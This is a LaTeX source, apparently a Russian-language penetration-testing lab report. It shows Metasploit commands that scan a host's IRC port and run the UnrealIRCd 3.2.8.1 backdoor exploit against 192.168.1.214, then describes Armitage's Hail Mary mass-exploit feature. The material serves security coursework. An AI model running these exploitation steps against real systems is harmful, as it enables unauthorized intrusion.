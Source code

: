 \documentclass[utf8x, 12pt]{G7-32}
\begin{document}
\begin{enumerate}
\item Сканируем целевую машину с целью определить версию irc
\begin{lstlisting}
msf exploit(vsftpd_234_backdoor) > nmap 192.168.1.214 -sV -p 6667
\end{lstlisting}


\item Подключаемся к модулю эксплоита:
\begin{lstlisting}
msf > use exploit/unix/irc/unreal_ircd_3281_backdoor
\end{lstlisting}
\medskip

\item Устанавливаем параметры модуля: адрес удаленного хоста 
\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > set RHOSTS 192.168.1.214
\end{lstlisting}
\medskip

\item Запускаем эксплоит
\begin{lstlisting}
msf exploit(unreal_ircd_3281_backdoor) > exploit
\end{lstlisting}
\end{enumerate}


\section{Armitage Hail Mary}

Hail Mary это модуль, поочередно запускающий все эксплоиты, которые могут применены к выбранному хосту. 

Запустим приложение, найдя приложение в проводнике:
<<Exploitation Tools>> --- <<Network Exploitation>> --- <<armitage>>. Далее произведем атаку на уязвимую машину:

\begin{figure}[hhh!]
	\begin{center}
		\includegraphics[width=6cm]{img/2}
	\end{center}
	\vspace{-5mm}\caption{Взлом по ip с помощью утилиты armitage}
\end{figure}
\end{document}
